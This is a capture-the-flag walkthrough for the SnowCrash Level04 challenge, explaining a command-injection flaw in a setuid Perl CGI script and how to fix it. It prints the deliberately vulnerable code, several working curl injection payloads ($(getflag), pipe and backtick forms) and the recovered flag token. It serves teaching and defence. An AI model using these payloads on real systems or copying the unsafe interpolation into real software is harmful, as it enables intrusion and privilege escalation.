 # SnowCrash Level04 Walkthrough

## Overview

Level04 demonstrates a classic web application vulnerability: **command injection** through a Perl CGI script. This level shows how unsanitized user input can lead to arbitrary command execution on the server.

## Initial Investigation

Upon logging into the level04 user, we find a Perl script:

```bash
level04@SnowCrash:~$ ls -la
total 14
dr-xr-x---+ 1 level04 level04   120 Mar  5  2016 .
d--x--x--x  1 root    users     340 Aug 30  2015 ..
-r-x------  1 level04 level04   220 Apr  3  2012 .bash_logout
-r-x------  1 level04 level04  3518 Aug 30  2015 .bashrc
-rwsr-sr-x  1 flag04  level04   152 Mar  5  2016 level04.pl
-r-x------  1 level04 level04   675 Apr  3  2012 .profile
```

### Key Observations

- The `level04.pl` script has **setuid** and **setgid** bits set (`-rwsr-sr-x`)
- It's owned by `flag04` user, meaning it runs with flag04 privileges
- The file is a Perl script (`.pl` extension)

## Script Analysis

Let's examine the contents of the Perl script:

```bash
level04@SnowCrash:~$ cat level04.pl
#!/usr/bin/perl
# localhost:4747
use CGI qw{param};
print "Content-type: text/html\n\n";
sub x {
  $y = $_[0];
  print `echo $y 2>&1`;
}
x(param("x"));
```

### Code Breakdown

1. **Shebang**: `#!/usr/bin/perl` - Specifies this is a Perl script
2. **Comment**: `# localhost:4747` - Indicates the script runs on port 4747
3. **CGI Module**: `use CGI qw{param};` - Imports the CGI module for handling web parameters
4. **HTTP Header**: `print "Content-type: text/html\n\n";` - Outputs HTML content type
5. **Function Definition**: The `x` subroutine takes a parameter and executes it
6. **Vulnerable Code**: `print \`echo $y 2>&1\`;` - Executes shell commands with backticks
7. **Parameter Handling**: `x(param("x"));` - Passes URL parameter "x" to the function

### Vulnerability Analysis

The critical vulnerability lies in this line:

```perl
print `echo $y 2>&1`;
```

This code:

- Uses backticks to execute shell commands
- Directly interpolates user input (`$y`) into the command
- Provides no input sanitization or validation
- Runs with elevated privileges due to the setuid bit

## Confirming the Web Service

The script is designed to run as a web service on port 4747. We can verify this by checking if the service is running:

```bash
level04@SnowCrash:~$ netstat -tlnp | grep 4747
tcp        0      0 127.0.0.1:4747          0.0.0.0:*               LISTEN      -
```

The service is indeed listening on localhost port 4747.

## Exploitation Strategy

The attack vector involves:

1. **Command Injection**: Using command substitution syntax `$(command)` in the URL parameter
2. **Privilege Escalation**: Leveraging the setuid bit to execute commands as flag04
3. **Flag Retrieval**: Executing `getflag` with elevated privileges

### Step 1: Test Basic Command Injection

First, let's verify that command injection works by executing a simple `ls` command:

```bash
level04@SnowCrash:~$ curl 'http://localhost:4747?x=$(ls)'
level04.pl
```

**Success!** The server executed `ls` and returned the directory listing, confirming the command injection vulnerability.

### Step 2: Understanding the Injection Mechanism

The injection works because:

1. Our input `$(ls)` is passed as parameter `x`
2. The script assigns it to variable `$y`
3. The command becomes: `echo $(ls) 2>&1`
4. The shell interprets `$(ls)` as command substitution
5. `ls` executes first, then its output is passed to `echo`

### Step 3: Execute getflag

Now we can execute `getflag` to retrieve the flag:

```bash
level04@SnowCrash:~$ curl 'http://localhost:4747?x=$(getflag)'
Check flag.Here is your token : ne2searoevaevoem4ov4ar8ap
```

## Alternative Injection Methods

Several other command injection techniques would work:

<!-- ### Using Semicolon Separation
```bash
curl 'http://localhost:4747?x=;getflag'
``` -->

### Using Pipe Operators

```bash
curl 'http://localhost:4747?x=|getflag'
```

### Using Backticks

```bash
curl 'http://localhost:4747?x=`getflag`'
```

<!-- ### Using AND Operator
```bash
curl 'http://localhost:4747?x=&&getflag'
``` -->

## Security Implications

This level demonstrates several critical security vulnerabilities:

### 1. **Command Injection**

- Direct execution of user input without sanitization
- Use of dangerous functions like backticks in Perl
- No input validation or filtering

### 2. **Privilege Escalation**

- Setuid binary allowing execution with elevated privileges
- Web service running with unnecessary permissions

### 3. **Poor Input Handling**

- No escaping or sanitization of user input
- Direct interpolation of variables into shell commands

## Mitigation Strategies

To prevent such vulnerabilities:

1. **Input Sanitization**: Always validate and sanitize user input
2. **Avoid Shell Execution**: Use safer alternatives to `system()` or backticks
3. **Principle of Least Privilege**: Don't run web services with elevated permissions
4. **Parameter Validation**: Implement strict parameter validation
5. **Use Safe Functions**: Prefer functions that don't invoke shell interpreters

### Example of Secure Code

```perl
# Instead of: print `echo $y 2>&1`;
# Use:
if ($y =~ /^[a-zA-Z0-9\s]+$/) {  # Validate input
    print CGI::escapeHTML($y);    # Escape output
}
```

## Web Application Context

This level simulates a common real-world scenario where:

- Web applications accept user input through URL parameters
- Backend scripts process this input without proper validation
- Elevated privileges amplify the impact of vulnerabilities

## Flag

```
ne2searoevaevoem4ov4ar8ap
```

This flag allows access to the next level of the SnowCrash challenge.

## Key Learnings

1. **Command Injection Basics**: Understanding how unsanitized input can lead to code execution
2. **CGI Security**: Common vulnerabilities in CGI scripts and web applications
3. **Privilege Escalation**: How setuid binaries can amplify security vulnerabilities
4. **Input Validation**: The critical importance of sanitizing user input
5. **Shell Metacharacters**: Understanding dangerous characters and command substitution syntax
6. **Web Security**: Basic principles of secure web application development

## Tools and Techniques Used

- **curl**: For making HTTP requests and testing web services
- **netstat**: For checking running services and open ports
- **Command Substitution**: Using `$(command)` syntax for injection
- **File Permissions Analysis**: Understanding setuid and setgid bits
